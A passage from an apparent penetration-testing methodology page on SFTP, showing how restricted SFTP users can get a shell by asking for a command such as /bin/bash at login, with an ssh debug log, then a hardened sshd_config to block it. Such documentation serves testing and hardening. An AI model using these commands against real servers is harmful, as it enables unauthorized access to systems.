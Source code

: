 ### SFTP Brute Force

* [**SFTP Brute Force**](../generic-methodologies-and-resources/brute-force.md#sftp)

### SFTP command execution

There is a common oversight occurs with SFTP setups, where administrators intend for users to exchange files without enabling remote shell access. Despite setting users with non-interactive shells (e.g., `/usr/bin/nologin`) and confining them to a specific directory, a security loophole remains. **Users can circumvent these restrictions** by requesting the execution of a command (like `/bin/bash`) immediately after logging in, before their designated non-interactive shell takes over. This allows for unauthorized command execution, undermining the intended security measures.

[Example from here](https://community.turgensec.com/ssh-hacking-guide/):

```bash
ssh -v noraj@192.168.1.94 id
...
Password:
debug1: Authentication succeeded (keyboard-interactive).
Authenticated to 192.168.1.94 ([192.168.1.94]:22).
debug1: channel 0: new [client-session]
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Sending command: id
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
uid=1000(noraj) gid=100(users) groups=100(users)
debug1: channel 0: free: client-session, nchannels 1
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

$ ssh noraj@192.168.1.94 /bin/bash
```

Here is an example of secure SFTP configuration (`/etc/ssh/sshd_config` – openSSH) for the user `noraj`:

```
Match User noraj
        ChrootDirectory %h
        ForceCommand internal-sftp
        AllowTcpForwarding no
        PermitTunnel no
        X11Forwarding no
        PermitTTY no
```

This configuration will allow only SFTP: disabling shell access by forcing the start command and disabling TTY access but also disabling all kind of port forwarding or tunneling.

### SFTP Tunneling
